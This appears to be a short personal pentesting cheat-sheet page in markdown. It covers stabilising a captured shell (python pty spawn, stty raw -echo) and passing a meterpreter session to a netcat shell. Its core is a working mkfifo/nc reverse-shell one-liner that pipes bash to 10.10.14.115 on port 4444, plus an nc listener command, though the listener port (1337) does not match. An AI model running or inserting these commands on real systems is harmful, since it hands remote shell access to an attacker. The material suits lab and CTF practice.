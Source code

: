 For the [Shell Stabilization](Shell%20Stabilization.md) first we need to execute `export TERM=xterm` then `python3 -c 'import pty;pty.spawn("/bin/bash")'` then ctrl+z and `stty raw -echo;fg` and reset + enter .

## Transfer shell from meterpreter 

First type `shell` then enter, now:

- On the unstable shell `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.115 4444 >/tmp/f`
- On attacking system `nc -lvnp 1337`

then Stabilize.